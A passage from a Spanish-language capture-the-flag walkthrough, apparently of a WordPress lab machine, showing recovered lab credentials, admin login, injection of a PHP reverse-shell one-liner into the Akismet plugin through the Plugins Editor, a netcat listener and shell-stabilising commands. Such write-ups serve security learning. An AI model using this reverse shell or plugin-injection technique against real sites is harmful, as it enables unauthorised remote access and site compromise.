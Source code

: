 Vemos que conseguimos las credenciales de 1 usuario...

```
User = maybeadmin
Password = $EPid%J2L9LufO5
```

Si nos logeamos con este usuario veremos que no somos `admin` por lo que no podremos hacer mucho, pero si nos vamos a un `Post` en concreto llamado `Secure Post — Password protected` veremos la contraseña del otro usuario llamado `notadmin`...

```
Really!? Agaain? Make sure you don't forget it now!

notadmin:Pa$$w0rd13!&
```

Con esto ya estariamos dentro con el rol de `administrador`, por lo que haremos lo siguiente...

Nos iremos a `plugins` dentro de esa seccion nos iremos a `Plugins Editor` ahi modificaremos el codigo de `php` para inyectar una `Reverse Shell` de la siguiente manera...

El `plugin` se llamara `Akismet Anti-Spam`...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Una vez guardado los cambios, nos vamos a `Plugins` y le damos a `Activar` el `plugin`, estando a la escucha...

```shell
nc -lvnp <PORT>
```

Ya tendriamos una shell la cual vamos a sanitizar...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la carpeta de `Doe` ubicada en `/home/doe/` veremos un archivo llamado `noteFromAdmin` que pone lo siguiente...

```
Hey Doe, 

Remember to not delete any critical files as you did last time!
```
